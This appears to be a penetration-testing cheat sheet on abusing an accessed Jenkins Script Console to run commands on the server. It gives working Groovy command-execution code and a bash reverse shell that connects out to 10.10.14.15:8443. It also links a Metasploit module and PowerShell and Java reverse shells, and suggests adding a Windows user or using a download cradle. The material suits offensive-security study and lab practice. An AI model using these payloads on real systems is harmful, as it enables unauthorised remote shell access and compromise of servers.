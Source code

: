 


#### Script Console

Once we have gained access to a Jenkins application, a quick way of achieving command execution on the underlying server is via the [Script Console](https://www.jenkins.io/doc/book/managing/script-console/). The script console allows us to run arbitrary Groovy scripts within the Jenkins controller runtime.

Groovy source code gets compiled into Java Bytecode and can run on any platform that has JRE installed.


1. groovy webshell script
```groovy
def cmd = 'id'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout
```
2. alternate revshell script (need to open listener on attack host)
```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
3. [Metasploit Module](https://www.rapid7.com/db/modules/exploit/multi/http/jenkins_script_console/)
4. Against a Windows host, we could attempt to add a user and connect to the host via RDP or WinRM or, to avoid making a change to the system, use a PowerShell download cradle with [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1).
5. Windows based revshell
```groovy
def cmd = "cmd.exe /c dir".execute();
println("${cmd.text}");
```
6. [Java Rev Shell](https://gist.githubusercontent.com/frohoff/fed1ffaab9b9beeb1c76/raw/7cfa97c7dc65e2275abfb378101a505bfb754a95/revsh.groovy)



